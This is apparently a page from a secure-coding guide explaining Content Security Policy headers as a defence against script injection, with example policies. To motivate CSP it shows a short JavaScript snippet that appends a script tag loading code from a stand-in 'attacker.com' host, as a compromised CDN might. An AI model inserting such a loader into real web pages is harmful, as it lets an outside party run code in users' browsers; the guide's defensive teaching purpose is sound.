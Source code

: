 Content Security Policy
=======================

[Content Security Policy][1] (CSP) is W3C Candidate Recommendation introduced to
prevent [Cross-Site Scripting attacks][2], click jacking and other code
injection attacks.

If you have already read [Dependencies][3] and [Interpreted Code Integrity][4]
general coding practices, you will see that they share some security concerns.

Starting with [Dependencies][3]. As our applications have dependencies,
dependencies also have their own dependencies. How do we know them all?

Our applications are build server-side and then sent to the client where they
run and live most of the execution time. How do they know what is running there?

Let's assume that you do not have SRI in place (if so, please read the
[Interpreted Code Integrity][4] section) and you're loading JavaScript resources
from a CDN. How do you know that these JavaScript resources do only download
known dependencies and nothing else? What if the CDN gets compromised and one of
the JavaScript resources your application downloads, is added a malicious
payload. Something like the one below in the middle of a huge library:

```javascript
var s = document.createElement(s);
s.src='//attacker.com/malicious.js';
document.body.appendChild(s);
```

`Content-Security-Policy` is an HTTP response header which allows the server to
tell the web browser what dynamic resources are allowed to load.
By "dynamic resources" you should consider JavaScript scripts, stylesheets,
images, XMLHttpRequests (AJAX), WebSockets or EventSource, fonts, objects
(`<object>`, `<embed>` or `<applet>`), media (`<audio>` and `<video>`), frames
and forms.

You're recommended to read the official [Content Security Policy Reference][1]
so that you can take advantage of all its features.

For completeness the following examples, locks your application resources to the
same origin policy: resources are only allowed to load when they come from your
application domain (`self`).

```
Content-Security-Policy: default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';
```

As said before, CSP also fits OWASP recommendations for [Interpreted Code
Integrity][4] overlapping SRI capabilities. For example, a hash can be provided
to `script-src` allowing it to run if and only if it matches give hash

```
Content-Security-Policy: script-src 'sha256-qznLcsROx4GACP2dm0UCKCzCG+HiZ1guq6ZZDob/Tng='
```

Although CSP is not bullet proof and it may look hard to manage, you should
definitely apply it on your web applications.

[1]: https://content-security-policy.com/
[2]: ../output-encoding/README.md
[3]: ./dependencies.md
[4]: ./interpreted-code-integrity.md
